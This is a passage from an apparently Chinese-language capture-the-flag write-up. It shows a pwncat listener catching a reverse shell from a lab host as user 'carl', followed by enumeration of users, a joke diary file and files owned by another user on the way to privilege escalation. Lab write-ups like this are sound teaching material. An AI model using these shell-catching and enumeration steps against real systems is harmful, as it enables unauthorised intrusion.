 ## User - carl

```bash
┌─[randark@parrot]─[~]
└──╼ $ pwncat-cs -lp 9999
[13:19:31] Welcome to pwncat 🐈!
[13:21:21] received connection from 192.168.56.122:50414
[13:21:21] 0.0.0.0:9999: normalizing shell path
[13:21:22] 192.168.56.122:50414: registered new host w/ db
(local) pwncat$ back
(remote) carl@choc:/home/carl$ whoami
carl
```

### 环境探测

根据 `/home` 目录下的结构，可以得知有三个用户

```plaintext
carl
sarah
torki
```

并且探测到一个文件

```plaintext title="/home/torki/secret_garden/diary.txt"
April 18th 2021
Last night I dreamed that I was at the beach with scarlett johansson, worst wake up call of my life!

September 12th 2309
I invented a time machine.The world is still crazy, territorial and proud !!

A day in -4.5000000000
The human doesn't exist yet and that's fucking great!!! but I'm a little bored...
```

同时尝试探测有哪些文件的所有者是 `torki`

```bash title="find / -user torki 2>/dev/null"
/home/torki
/home/torki/.profile
/home/torki/.selected_editor
/home/torki/secret_garden
/home/torki/secret_garden/diary.txt
/home/torki/.bash_logout
/home/torki/.bashrc
/home/torki/.gnupg
/home/torki/.local
/home/torki/.local/share
/home/torki/.ssh
/home/torki/backup.sh
/tmp/backup_home.tgz
```
